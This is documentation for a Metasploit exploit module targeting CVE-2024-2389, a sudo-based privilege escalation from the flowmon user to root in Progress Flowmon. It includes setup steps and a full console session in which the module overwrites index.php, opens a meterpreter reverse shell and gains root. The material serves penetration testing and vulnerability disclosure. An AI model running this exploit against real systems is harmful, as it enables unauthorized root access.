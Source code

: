 ## Vulnerable Application
Progress Flowmon up to at least version 12.3.2 is vulnerable to local privilege escalation from the
`flowmon` user to `root`. This is possible due to the
flowmon user being able to run several commands with
`sudo`. This module exploits the ability to overwrite a
PHP file and execute it with `sudo` granting full `sudo`
permissions to the `flowmon` user and elevating the
shell to a root shell.

For more details on the vulnerability:
https://rhinosecuritylabs.com/research/cve-2024-2389-in-progress-flowmon/ (privesc methods)

https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability

This application is avaiable in cloud marketplaces:
- https://portal.azure.com/#view/Microsoft_Azure_Marketplace/GalleryItemDetailsBladeNopdl/id/progresssoftwarecorporation.flowmon
- https://aws.amazon.com/marketplace/pp/prodview-6phnrhkekuzka
- https://console.cloud.google.com/marketplace/product/flowmon-public/flowmon-collector-for-google-cloud



## Verification Steps
1. Install the application
1. Start msfconsole
1. Gain a session on a Progress Kemp Loadmaster target as the `flowmon` user
1. Do: `use exploits/linux/local/pprogress_flowmon_sudo_privesc_2024`
1. Do: `set SESSION <session>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `root` user.

## Scenarios

### Flowmon 12.2

```msf6 exploit(linux/local/progress_flowmon_sudo_privesc) > sessions

Active sessions
===============

  Id  Name  Type                   Information                          Connection
  --  ----  ----                   -----------                          ----------
  2         meterpreter x64/linux  flowmon @ flowmon.my3m4o21xjze5fomt  138.111.211.11:4444 -> 172.174.209.1
                                   xp5e53h2h.bx.internal.cloudapp.net   01:50756 (10.1.0.4)

msf6 exploit(linux/local/progress_flowmon_sudo_privesc) > show options

Module options (exploit/linux/local/progress_flowmon_sudo_privesc):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   SESSION       2                yes       The session to run this module on
   TEMP_PAYLOAD  /tmp/sCmGZ       yes       The temporary name to use to store the payload.


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  138.111.211.11   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/progress_flowmon_sudo_privesc) > run

[*] Started reverse TCP handler on 138.111.211.11:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Copying /var/www/shtml/index.php to /tmp/index.php.bak
[*] Overwriting /var/www/shtml/index.php with payload
[*] Executing sudo to elevate privileges
[*] Replacing index.php with original file
[+] Deleted /tmp/sCmGZ
[*] Meterpreter session 3 opened (138.111.211.11:4444 -> 172.174.209.101:51042) at 2024-05-01 15:41:10 +0000

meterpreter > sysinfo
Computer     : flowmon.my3m4o21xjze5fomtxp5e53h2h.bx.internal.cloudapp.net
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.76.1.el7.flowmon.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
